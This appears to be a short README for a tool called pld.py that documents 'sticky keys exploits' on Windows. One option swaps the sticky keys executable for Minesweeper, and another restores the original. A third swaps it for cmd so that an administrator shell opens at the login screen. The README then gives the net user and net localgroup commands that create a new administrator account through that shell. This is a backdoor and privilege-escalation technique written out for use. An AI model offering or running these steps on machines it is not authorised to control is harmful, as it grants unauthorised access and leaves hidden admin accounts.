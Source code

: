 # [Sticky keys](./StickyKeys.py) exploits
- `./pld.py --sticky-mines` (Sticky keys to minesweeper)
	- This will change the sticky keys executable to Minesweeper, allowing you to summon minesweeper at a spam of the left shift
- `./pld.py --sticky-do` (Restore sticky keys to default)
	- This will restore the sticky keys executable to the default
- `./pld.py --sticky-keys` (Change sticky keys to CMD)
	- This will change the sticky keys executable to cmd, allowing access to the admin shell when sticky keys is spammed at the login screen. 
		- This allows you to create new admin users, and freely use your PLD:
		  ```sh
		  net user /add <user> <password>
		  net localgroup Administrators /add <user>
		  ```
